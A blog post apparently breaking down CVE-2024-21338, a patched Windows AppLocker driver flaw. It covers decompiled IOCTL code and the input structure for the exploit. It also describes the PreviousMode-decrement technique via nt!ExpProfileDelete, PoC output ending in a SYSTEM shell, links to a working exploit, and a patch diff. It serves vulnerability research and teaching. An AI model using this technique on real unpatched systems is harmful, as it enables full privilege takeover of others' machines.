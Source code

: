 ```yaml
---
title:      "Windows AppLocker Kernel Elevation of Privilege Vulnerability  "
subtitle:   "Sample Subtitle"
date:       2025-05-18
author:     "Ghostbyt3"
tags:    ["1day", "appid.sys", "windows", "kernel", "privesc"]
categories: ["1Day Breakdown"]
authorbox: true
pager: true
toc: true
sidebar: "right"
layout: "single"
showTableOfContents: true
---
```


CVE-2024-21338 is a privilege escalation vulnerability in the Windows AppLocker driver (`appid.sys`). The flaw resides in the `AipSmartHashImageFile` function, reachable via IOCTL `0x22A018`, which allows user-mode input to control code execution. Specifically, the function dereferences two user-provided pointers from a shared SystemBuffer without verifying their validity or origin. One of these pointers is treated as a function pointer and is called directly from kernel mode.

**CVE-2024-21338:** https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21338  
**Vulnerability Type:** Untrusted Pointer Dereference  
**Tested On:** Windows 11 23H2  
**Driver Version:** appid.sys - 10.0.22621.3155    

## Requirements

To send the IOCTL request, the IOCTL code was examined and found to have the access flag set to `FILE_WRITE_ACCESS`. This means the I/O manager will dispatch the IRP only if the caller has write access rights.

![IMG](/img/cve-2024-21338/img2.png)

The device’s security descriptor was checked to determine which users have permission to open a handle. It was observed that only the `AppIDSvc` and `LOCAL SERVICE` accounts have full access and `Administrator` does not. As a result, a `cmd.exe` session must be run under one of these two accounts to interact with and exploit the device.

![IMG](/img/cve-2024-21338/img1.png)

One of the simplest methods to achieve this is by using `PsExec.exe` to spawn a shell as the `LOCAL SERVICE` user.

![IMG](/img/cve-2024-21338/img3.png)

## Vulnerability analysis

The IOCTL request sent to `0x22A018` takes user-supplied input and passes it to the `AipSmartHashImageFile()` function.

```c++
__int64 __fastcall AipDeviceIoControlDispatch(struct _DEVICE_OBJECT *a1, IRP *_IRP)
{


[::]

      case 0x22A018u:
        if ( WPP_GLOBAL_Control != (PDEVICE_OBJECT)&WPP_GLOBAL_Control && (HIDWORD(WPP_GLOBAL_Control->Timer) & 2) != 0 )
          WPP_SF_(WPP_GLOBAL_Control->AttachedDevice, 27LL, &WPP_1ce862bc955b392889c1b25f85145990_Traceguids);
        if ( CurrentStackLocation->Parameters.DeviceIoControl.InputBufferLength == 32 )
        {
          ConfigOptions = AipSmartHashImageFile((__int64)_IRP->AssociatedIrp.SystemBuffer, 0LL, 0LL, 0LL); // Call to AipSmartHashImageFile with User input
LABEL_103:
          v9 = ConfigOptions;
          break;
        }
LABEL_25:
        v9 = -1073741811;
        break;
      default:
        v7 = WPP_GLOBAL_Control;
        if ( WPP_GLOBAL_Control == (PDEVICE_OBJECT)&WPP_GLOBAL_Control || (HIDWORD(WPP_GLOBAL_Control->Timer) & 2) == 0 )
          goto LABEL_15;
        v8 = 28LL;
LABEL_14:
        WPP_SF_D(v7->AttachedDevice, v8, &WPP_1ce862bc955b392889c1b25f85145990_Traceguids, LowPart);
LABEL_15:
        v9 = -1073741808;
        break;
    }


[::]

}
```

Following up, the process takes the following path and performs several checks. The main check happens in `appid!AipSmartHashImageFile()` whose primary functionality is passing the value at `SystemBuffer + 8` to [`ObfReferenceObject()`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-obfreferenceobject). This routine increments the reference count of the specified object, which implies that the value at SystemBuffer + 8 must be a valid kernel object address. Otherwise, the reference operation will fail or potentially lead to a crash.

![IMG](/img/cve-2024-21338/img.png)

`AppHashComputeImageHashInternal()` calls the function pointer stored at `SystemBuffer + 16`, passing the value at `SystemBuffer` (i.e., the first 8 bytes) as an argument.

```c++
__int64 __fastcall AppHashComputeImageHashInternal(
        __int64 SystemBuffer,
        __int64 (__fastcall **SystemBuffer_16)(__int64, __int128 *),
        unsigned int a3,
        __int64 a4)
{

[::]

  __int64 v43; // [rsp+A8h] [rbp+Fh]

  v39 = SystemBuffer_16;
  *(_QWORD *)v32 = a4;
  v40 = SystemBuffer;
  v29 = 0;
  v37 = 0LL;
  v38 = 0LL;
  v5 = 0;
  v43 = 0LL;
  v6 = 0;
  v30 = 0;
  v33 = 0;
  v34 = 0;
  LODWORD(v35) = 0;
  *(_QWORD *)v41 = 0LL;
  v42 = 0LL;
  if ( !a3 )
    return 0;
  v7 = (*SystemBuffer_16)(SystemBuffer, &v42); // Vulnerable function call


[::]

```

This is a sample structure of how the input should be defined:

```c
typedef struct SMART_HASH_INPUT {
    DWORD64 Arguments_Ptr;
    PVOID Object_Ptr;
    PVOID ExpProfileDelete_Ptr;
    DWORD64 PADDING;
} _SMART_HASH_INPUT, *PSMART_HASH_INPUT;
```
- `Object_Ptr` must be a valid object pointer that satisfies the expectations of `AipSmartHashImageFile()`.
- `ExpProfileDelete_Ptr` is the API that will be invoked. This call is routed through `guard_dispatch_icall_fpt`, which enforces Kernel Control Flow Guard (KCFG). The `nt!ExpProfileDelete()` function ultimately calls the `ObfDereferenceObjectWithTag` kernel macro.
- This macro decrements the reference count field of the object passed to it (located at offset -0x30). This behavior makes it ideal for modifying the `PreviousMode` of a thread—from a user-mode value of 1 to a kernel-mode value of 0.
- To achieve this, we need to pass the address of `nt!ExpProfileDelete()` to `ExpProfileDelete_Ptr`, and `Arguments_Ptr` must point to the `KTHREAD.PreviousMode` field of the current thread.

## Exploit

Tested on: Windows 11 22H2 (01-2024 Build)
Working POC: https://github.com/ghostbyt3/WinDriver-EXP/tree/main/CVE-2024-21338/POC

```
PS C:\Users\h4x\Desktop> .\CVE-2024-21338.exe -p 2116
[+] Trying to find Thread ID for the given process PID: 2116
[+] First Thread ID of the process: 2120
[+] NT base address fffff80012400000
[+] Found EPROCESS of the current process FFFFAD85DAFBE080
[+] Found KTHREAD of the current thread FFFFAD85D9335080
[+] Found EPROCESS of the system.exe FFFFAD85D64E8040
[+] Opened a THREAD_DIRECT_IMPERSONATION handle to the LOCAL_SERVICE process
[+] Opening handle to Applocker device
[+] Dummy FILE_OBJECT address: FFFFAD85DBA171D0
[+] Calling AipSmartHashImageFile ....success
[+] Stealing system's Token..
[+] Replacing KTHREAD.PreviousMode as UserMode..
[+] Spawning shell as SYSTEM...
Microsoft Windows [Version 10.0.22621.1]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h4x\Desktop>whoami
nt authority\system
```

## Patch analysis

The patched version adds checks to ensure the input does not originate from user mode and restricts access.

```c++
__int64 __fastcall AipDeviceIoControlDispatch(struct _DEVICE_OBJECT *a1, IRP *_IRP)
{


[::]

case 0x22A018:
        if ( WPP_GLOBAL_Control != (PDEVICE_OBJECT)&WPP_GLOBAL_Control && (HIDWORD(WPP_GLOBAL_Control->Timer) & 2) != 0 )
          WPP_SF_(
            (__int64)WPP_GLOBAL_Control->AttachedDevice,
            0x1Bu,
            (__int64)&WPP_9fed954e24023a5a6dae708fb6376e6f_Traceguids);
        if ( (unsigned int)Feature_2959575357__private_IsEnabled() && ExGetPreviousMode() )  // Fix
          goto LABEL_20;
        if ( CurrentStackLocation->Parameters.DeviceIoControl.InputBufferLength == 32 )
        {
          ConfigOptions = AipSmartHashImageFile((__int64)IRP->AssociatedIrp.MasterIrp, 0LL, 0LL, 0LL);
LABEL_105:
          v8 = ConfigOptions;
          break;
        }
LABEL_27:
        v8 = -1073741811;
        break;


[::]
}
```

## Acknowledgements

- It was explained by Nero0oo0 and can be found [here](https://nero22k.github.io/posts/windows-applocker-driver-elevation-of-privilege-cve-2024-21338/).
- The [PoC](https://github.com/Nero22k/Exploits/tree/main/Windows/CVE-2024-21338) was developed by Nero0oo0, and the above PoC is based on it.

